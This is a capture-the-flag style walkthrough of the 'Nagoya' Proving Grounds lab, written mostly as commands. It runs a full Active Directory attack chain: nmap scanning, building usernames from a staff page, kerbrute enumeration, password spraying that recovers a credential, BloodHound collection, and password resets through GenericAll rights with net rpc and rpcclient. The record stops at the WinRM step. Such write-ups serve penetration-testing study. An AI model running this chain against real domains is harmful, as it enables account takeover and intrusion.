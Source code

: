 # Info
```bash
Info:
IP: 192.168.237.21
OS:
Domain: nagoya-industries.com
```

# Links:
```bash
https://medium.com/@mu.aktepe18/nagoya-proving-ground-walk-through-afb50d51bb0f

https://aditya-3.gitbook.io/oscp/readme/walkthroughs/pg-practice/nagoya
```
# Standard enum:
```bash
nmap -p- -sCV nagoya.pgp --open
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-12 20:19 EDT
Nmap scan report for nagoya.pgp (192.168.237.21)
Host is up (0.047s latency).
Not shown: 65512 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE           VERSION
53/tcp    open  domain            Simple DNS Plus
80/tcp    open  http              Microsoft IIS httpd 10.0
|_http-title: Nagoya Industries - Nagoya
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2025-10-13 00:21:45Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: nagoya-industries.com0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: nagoya-industries.com0., Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl?
3389/tcp  open  ms-wbt-server     Microsoft Terminal Services
|_ssl-date: 2025-10-13T00:23:20+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=nagoya.nagoya-industries.com
| Not valid before: 2025-10-12T00:18:05
|_Not valid after:  2026-04-13T00:18:05
| rdp-ntlm-info: 
|   Target_Name: NAGOYA-IND
|   NetBIOS_Domain_Name: NAGOYA-IND
|   NetBIOS_Computer_Name: NAGOYA
|   DNS_Domain_Name: nagoya-industries.com
|   DNS_Computer_Name: nagoya.nagoya-industries.com
|   DNS_Tree_Name: nagoya-industries.com
|   Product_Version: 10.0.17763
|_  System_Time: 2025-10-13T00:22:40+00:00
5985/tcp  open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf            .NET Message Framing
49666/tcp open  msrpc             Microsoft Windows RPC
49668/tcp open  msrpc             Microsoft Windows RPC
49676/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc             Microsoft Windows RPC
49681/tcp open  msrpc             Microsoft Windows RPC
49691/tcp open  msrpc             Microsoft Windows RPC
49698/tcp open  msrpc             Microsoft Windows RPC
49717/tcp open  msrpc             Microsoft Windows RPC
Service Info: Host: NAGOYA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-10-13T00:22:41
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 210.45 seconds
```


# Worth checking:
```bash
80 - http
139, 445 - smb
389, 636, 3268, 3269 - LDAP
3389 - RDP
5985 - WinRM
9389 - ?
```
# 80
in section team, we have nice finding:
![team member first names and surnames](image.png)

We can sue it to create potential usernames
```bash
Matthew Harrison
Emma Miah
Rebecca Bell
Scott Gardner
Terry Edwards
Holly Matthews
Anne Jenkins
Brett Naylor
Melissa Mitchell
Craig Carr
Fiona Clark
Patrick Martin
Kate Watson
Kirsty Norris
Andrea Hayes
Abigail Hughes
Melanie Watson
Frances Ward
Sylvia King
Wayne Hartley
Iain White
Joanna Wood
Bethan Webster
Elaine Brady
Christopher Lewis
Megan Johnson
Damien Chapman
Joanne Lewis
```
Based on this info, we can start preparing list of potential usernames. To do it, download:
```bash
https://github.com/urbanadventurer/username-anarchy
```

and use thos command (for more, please read github page):
```bash
/username-anarchy -i ~/PGP/Nagoya/usernames >> user.names 
```

Our result:

![usernames](image-1.png)

Lets check with kerbrute, which usernames are valid:
```bash
./kerbrute_linux_amd64 userenum --dc nagoya.pgp -d nagoya-industries.com user.names 
```

![Valid usernames](image-2.png)

Now clean this up and we have list:
```bash
matthew.harrison
emma.miah
rebecca.bell
scott.gardner
terry.edwards
holly.matthews
anne.jenkins
brett.naylor
melissa.mitchell
craig.carr
fiona.clark
patrick.martin
kate.watson
kirsty.norris
andrea.hayes
abigail.hughes
melanie.watson
frances.ward
sylvia.king
wayne.hartley
iain.white
joanna.wood
bethan.webster
elaine.brady
christopher.lewis
megan.johnson
damien.chapman
joanne.lewis
```

lets try to find password for them:
```bash
crackmapexec smb nagoya.pgp -u usernames -p /usr/share/seclists/Passwords/corporate_passwords.txt 
```

And we have it!

```bash
fiona.clark:Summer2023
```

Let's check what she can do with bloodhound:
```bash
bloodhound-python -u "fiona.clark" -p 'Summer2023' -d nagoya-industries.com -c all --zip -ns 192.168.237.21
```

![Bloodhound ss](image-3.png)

Fiona is member of employee group with GenericAll entitlments, as per https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/acl-persistence-abuse/index.html?highlight=GenericAll#genericall-rights-on-user:

"This privilege grants an attacker full control over a target user account. Once GenericAll rights are confirmed using the Get-ObjectAcl command, an attacker can:

Change the Target's Password: Using net user <username> <password> /domain, the attacker can reset the user's password.
From Linux, you can do the same over SAMR with Samba net rpc:
bash
# Reset target user's password over SAMR from Linux
net rpc password <samAccountName> '<NewPass>' -U <domain>/<user>%'<pass>' -S <dc_fqdn>" and some more...
So lets do it!

```bash
 net rpc password joanna.wood 'Password@' -U nagoya-industries.com/fiona.clark%'Summer2023' -S 192.168.237.21

or

rpcclient -U "fiona.clark%Summer2023" nagoya.pgp
rpcclient $> setuserinfo2 joanna.wood 23 Password@
```

Joanna is member of helpdesk, and has Genric all for all employees:

![Bloodhound2 ss](image-4.png)

Last one, Christopher Lewis is member or 5 groups instead of 3 like rest of employees. One of this group is remote managment user which is great for us:

![Bloodhound3 ss](image-5.png)

So now, lest do teh same and change password for chris.
```bash
 net rpc password christopher.lewis 'Password@' -U nagoya-industries.com/joanna.wood%'Password@' -S 192.168.237.21
 ```

 Now evilwinrm